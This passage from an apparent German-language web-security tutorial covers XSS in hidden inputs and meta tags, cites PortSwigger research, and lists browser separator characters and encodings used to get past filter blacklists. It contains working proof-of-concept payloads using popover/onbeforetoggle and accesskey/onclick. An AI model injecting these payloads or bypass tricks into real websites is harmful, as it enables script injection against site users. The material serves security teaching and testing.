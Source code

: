 ```javascript
Opera: %09 %20 %2C %3B
Android: %09 %20 %28 %2C %3B
```
### XSS in "Unexploitable tags" (hidden input, link, canonical, meta)

Von [**hier**](https://portswigger.net/research/exploiting-xss-in-hidden-inputs-and-meta-tags) **ist es jetzt möglich, versteckte Eingaben zu missbrauchen mit:**
```html
<button popvertarget="x">Click me</button>
<input type="hidden" value="y" popover id="x" onbeforetoggle=alert(1)>
```
Und in **meta-Tags**:
```html
<!-- Injection inside meta attribute-->
<meta name="apple-mobile-web-app-title" content=""Twitter popover id="newsletter" onbeforetoggle=alert(2) />
<!-- Existing target-->
<button popovertarget="newsletter">Subscribe to newsletter</button>
<div popover id="newsletter">Newsletter popup</div>
```
Von [**hier**](https://portswigger.net/research/xss-in-hidden-input-fields): Sie können eine **XSS-Nutzlast in einem versteckten Attribut** ausführen, vorausgesetzt, Sie können den **Opfer** dazu **überreden**, die **Tastenkombination** zu drücken. Unter Firefox Windows/Linux ist die Tastenkombination **ALT+SHIFT+X** und unter OS X ist es **CTRL+ALT+X**. Sie können eine andere Tastenkombination angeben, indem Sie eine andere Taste im Attribut für den Zugriffsschlüssel verwenden. Hier ist der Vektor:
```markup
<input type="hidden" accesskey="X" onclick="alert(1)">
```
**Die XSS-Nutzlast wird etwa so aussehen: `" accesskey="x" onclick="alert(1)" x="`**

### Blacklist-Umgehungen

Mehrere Tricks mit verschiedenen Kodierungen wurden bereits in diesem Abschnitt vorgestellt. Gehe **zurück, um zu lernen, wo du verwenden kannst:**

* **HTML-Kodierung (HTML-Tags)**
* **Unicode-Kodierung (kann gültiger JS-Code sein):** `\u0061lert(1)`
* **URL-Kodierung**
* **Hex- und Oktal-Kodierung**
* **Datenkodierung**

**Umgehungen für HTML-Tags und Attribute**

Lies die [Blacklist-Umgehungen des vorherigen Abschnitts](./#blacklist-bypasses).

**Umgehungen für JavaScript-Code**

Lies die [JavaScript-Umgehungs-Blacklist des folgenden Abschnitts](./#javascript-bypass-blacklists-techniques).

### CSS-Gadgets
